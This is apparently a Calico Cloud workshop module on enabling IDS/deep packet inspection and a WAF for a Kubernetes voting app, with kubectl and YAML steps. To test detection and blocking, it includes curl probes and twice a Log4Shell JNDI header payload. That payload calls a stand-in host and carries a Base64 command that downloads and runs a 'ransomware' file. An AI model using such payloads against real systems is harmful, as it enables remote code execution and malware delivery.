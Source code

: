 # Module 5 - Configuring IDS protection and Workload-Centric WAF

Security teams need to run DPI quickly in response to unusual network traffic in clusters so they can identify potential threats. Also, it is critical to run DPI on select workloads (not all) to efficiently use cluster resources and minimize the impact of false positives. Calico Cloud provides an easy way to perform DPI using Snort community rules. You can disable DPI at any time, selectively configure for namespaces and endpoints, and alerts are generated in the `Alerts` dashboard in Manager UI.

For this workshop, we will enable the IDS for the vote service and observe the alerts being created when trying to exploit some vulnerabilities.

1. First enable the `Intrusion Detection`

   ```yaml
   kubectl apply -f - <<-EOF
   apiVersion: operator.tigera.io/v1
   kind: IntrusionDetection
   metadata:
     name: tigera-secure
   spec:
     componentResources:
     - componentName: DeepPacketInspection
       resourceRequirements:
         limits:
           cpu: "1"
           memory: 1Gi
         requests:
           cpu: 100m
           memory: 100Mi
   EOF
   ```

2. Next, create a `DeepPacketInspection` for the vote application in the vote namespace.

   ```yaml
   kubectl apply -f - <<-EOF
   apiVersion: projectcalico.org/v3
   kind: DeepPacketInspection
   metadata:
     name: dpi-ids-vote
     namespace: vote
   spec:
     selector: app == "vote"
   EOF
   ```

3. Test the IDS emulating an attack to the vote service:

   - Open a new Cloud Shell session and start a pod to simulate an attack on the vote service.

     ```bash
     kubectl exec attacker -it -- /bin/bash
     ```

   - From pod attacker's shell, execute the following commands.

     ```bash
     curl -m2 http://vote.vote/cmd.exe
     curl -m2 http://vote.vote/NessusTest
     ```

   - Observe the results in the Service Graph to see the generated alerts that will warn you about the exploitation attempt.

---

A web application firewall (WAF) safeguards web applications against a range of application layer attacks, including cross-site scripting (XSS), SQL injection, and cookie poisoning. Given that application attacks are the primary cause of breaches, protecting the HTTP traffic that serves as a gateway to valuable application data is crucial.

Calico Cloud WAF allows you to selectively run service traffic within your cluster and protect intra-cluster traffic from common HTTP-layer attacks. To increase protection, you can use Calico Cloud network policies to enforce security controls on selected pods on the host.

1. Before protecting the service with the WAF, try the following command from the attacker shell. This request will simulate a LOG4J attack.

   ```bash
   curl -v -H \
     'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
     'vote.vote'
   ```
   
   Observe that the result was an HTTP 200 - Ok . The malicious request was not blocked.

2. Enable the WAF in the Calico Cloud UI.

   ![enable_waf](https://github.com/tigera-solutions/cc-aks-compliance-workshop/assets/104035488/a8c3eca4-b156-4bf4-bd72-a197c5c34402)

3. Verify that the service selected includes the frontends `vote` and `result` of our example application and click `Confirm Selection`.

   ![selected_service](https://github.com/tigera-solutions/cc-aks-compliance-workshop/assets/104035488/467002cf-d4a1-4ee5-9ccb-c789c032f2a4)


4. Go back to the attack pod, and repeat the request.

   ```bash
   curl -v -H \
     'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
     'vote.vote'
   ```
   
   You will note that the result will be an HTTP 403 - Forbidden. This response returns from the WAF.

--- 

[:arrow_right: Module 6 - Quarantine Infected Workloads and KSPM](/mod/module-6-quarantine-kspm.md)  <br>

[:arrow_left: Module 4 - Security Guardrails for Network-based Threats](/mod/module-4-security-guardrails.md)  
[:leftwards_arrow_with_hook: Back to Main](/README.md)  
